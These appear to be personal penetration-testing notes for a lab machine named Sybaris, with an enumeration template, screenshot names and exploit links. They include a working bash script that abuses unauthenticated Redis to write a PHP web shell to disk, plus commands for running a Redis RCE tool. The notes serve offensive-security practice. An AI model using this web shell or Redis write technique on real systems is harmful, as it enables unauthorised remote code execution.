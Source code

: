 # Sybaris Notes

## Data 

IP:  192.168.231.93
OS: CentOS
Arch:
Hostname:
DNS:
Domain:  / Domain SID:
Machine Purpose: 
Services:
Service Languages:
Users:
Email and Username Formatting:
Credentials:

## Objectives

`\#\# Target Map ![](Sybaris-map.excalidraw.md)`

#### Machine Connects to list and reason:

[[]] - Reason X

## Data Collected

#### Credentials
```
```

#### HUMINT


#### Solution Inventory Map


#### Todo 
- Wpscan there is a Wordpress theme possible rabbit hole

- Find a directory 

#### Timeline of tasks complete

nmapftpanon.png
ftpwritablepubdir.png
- /pub is not under /var/www/html
robotsandredis.png
composerjson.png
redisisvuln.png
gobuster301s.png
phppathtrav.png
redisRCEsh.png
mehhtlmy.png

- [Redis 4.x / 5.x - Unauthenticated Code Execution (Metasploit)](https://www.exploit-db.com/exploits/47195)
- [Redis RCE from packetstormsecurity](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)  from [[Reddish-Helped-Through]]
```bash
# 0xDF 
# cmd.php:




 <? system($_REQUEST['cmd']); ?>




# redishRCE.sh
#!/bin/bash

# https://0xdf.gitlab.io/2019/01/26/htb-reddish.html#webshell
redis-cli -h 192.168.231.93 flushall
cat cmd.php | redis-cli -h 192.168.231.93 -x set subscribetoippsecandread0xdf
redis-cli -h 192.168.231.93 config set dir /tmp
redis-cli -h 192.168.231.93 config set dbfilename "cmd.php"
redis-cli -h 192.168.231.93 save
```
- https://www.exploit-db.com/exploits/1244
- Find the directory - probably redis is running as a redis user  
	- /tmp works!
- https://nvd.nist.gov/vuln/detail/CVE-2020-23766 - An arbitrary file deletion vulnerability was discovered on htmly v2.7.5 which allows remote attackers to use any absolute path to delete any file in the server should they gain Administrator privileges.
- htmly - [[metatag-cms-http___192.168.237.93_]]

```
cd redis-rce
python3 -m venv .venv
source .venv/bin/activate
pip3 install -r requirements.txt
python3 redis-rce.py
```

tryingwithtmetasploitexpsofile.png

Then with https://github.com/n0b0dyCN/RedisModules-ExecuteCommand and failed

add `#include <string.h>` and it still timed out..

- no udp ports

